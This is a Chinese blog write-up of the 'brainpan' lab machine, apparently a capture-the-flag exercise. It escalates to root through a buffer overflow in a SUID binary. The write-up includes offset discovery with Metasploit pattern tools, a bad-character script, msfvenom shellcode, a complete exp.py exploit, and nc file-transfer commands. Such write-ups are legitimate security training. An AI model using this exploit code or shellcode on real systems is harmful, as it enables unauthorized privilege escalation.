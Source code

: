 ```yaml
---
title: brainpan（suid溢出提权）
categories:
- buffer overflow
tags:
- buffer overflow
---
```


参考资料：[Sneaky（suid+缓冲区溢出提权）](https://whale3070.github.io/training/2020/01/06/06-x/)

[上一篇](https://whale3070.github.io/buffer%20overflow/2020/01/30/04-x/)
得到了一个普通权限的shell，通过suid的缓冲区溢出漏洞，得到shell。这也不是第一次遇到了类似情况了。

## 文件传输
whereis gdb
结果显示客户机没有gdb，所以传输到kali上分析。

```
【目标机】nc -lnvp 8080 -w 5 < /usr/local/bin/validate
【kali】nc 192.168.67.130 8080  -w 5 > validate
```
## 分析程序
chmod a+x validate

### 让程序报错
```
gdb validate
run  $(python -c "print 'A'*500")  报错
run  $(python -c "print 'A'*250") 报错
run  $(python -c "print 'A'*100") 正常
```
直到找到恰当的长度
```
run  $(python -c "print 'A'*150") 报错
```
### 找到缓冲区长度116
```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 150

```

![3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-30-06/3.PNG)

0x39644138 

```
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 150 -q 39644138

Exact match at offset 116
```
### 检查坏字符
遇到问题，不知道如何用gdb或者edb检查坏字符。思考后成功找到定位方法。

`edb --run /root/Desktop/validate $(python badchar.py)`

![7](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-30-06/7.PNG)
右下角堆栈面板，选中有很多A字符的地址，右键`follow address in dump`。

![9](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-30-06/9.PNG)

A字符的末尾，可以看到`01、02、03...`输入的字符。可以看到08后面没有09，于是09是坏字符。
![8](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-30-06/8.PNG)

以此类推，检查的坏字符有`\x09\x0a`

### badchar.py
```
print 'A'*116+"\x01\x02\x03\x04\x05\x06\x07\x08\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"

```
### msfelfscan
如果msfelfscan提示命令未找到。
```
cd /usr/bin
ln -s /usr/share/framework2/msfelfscan msfelfscan
```
再次输入`msfelfscan -h`，即可。

### 找到EIP跳转的地址
本来想找到JMP ESP栈顶的地址，但是没有找到。

![4](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-30-06/4.PNG)

### 生成shellcode
`msfvenom -p linux/x86/exec CMD=/bin/sh -f python -b '\x00\x09\x0a'`

### exp.py
```
from struct import pack

buf =  b""
buf += b"\xb8\x76\x71\xc5\x28\xdb\xc5\xd9\x74\x24\xf4\x5d\x29"
buf += b"\xc9\xb1\x0b\x83\xc5\x04\x31\x45\x11\x03\x45\x11\xe2"
buf += b"\x83\x1b\xce\x70\xf2\x8e\xb6\xe8\x29\x4c\xbe\x0e\x59"
buf += b"\xbd\xb3\xb8\x99\xa9\x1c\x5b\xf0\x47\xea\x78\x50\x70"
buf += b"\xe4\x7e\x54\x80\xda\x1c\x3d\xee\x0b\x92\xd5\xee\x04"
buf += b"\x07\xac\x0e\x67\x27"

buffersize = 116      

nop = "\x90" * (buffersize - len(buf)) 
eax = pack('<L', 0x080484af)        
payload = buf + nop + eax 

print payload

```
## 文件传输
```
【目标机】nc -lnvp 8080 -w 5 > exp.py
【kali】nc 192.168.67.130 8080  -w 5 < exp.py
cd  /usr/local/bin/;./validate $(python /tmp/exp.py)
```
![5](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-30-06/5.PNG)
```
file /home/anansi/bin/anansi_util
/home/anansi/bin/anansi_util: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.15, BuildID[sha1]=0x7c0ee1e54fe059d0d83962304a6694199b6535b7, not stripped

```
![6](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-30-06/6.PNG)
sudo -l显示，`sudo /home/anansi/bin/anansi_util`  这个程序运行不需要密码，所以可以将/bin/bash添加到该程序，sudo以root权限运行该程序，最终获得root权限。
## 总结
- msfelfscan用来找到EIP跳转的地址
- `msfvenom -p linux/x86/exec CMD=/bin/sh -f python -b '\x00\x09\x0a'`生成shellcode
- `payload = buf + nop + eax `，本次的返回地址是`call eax`，以前都是使用`jmp esp`。不太理解eax在这里起到的作用。等以后水平提升了再回头看看吧。
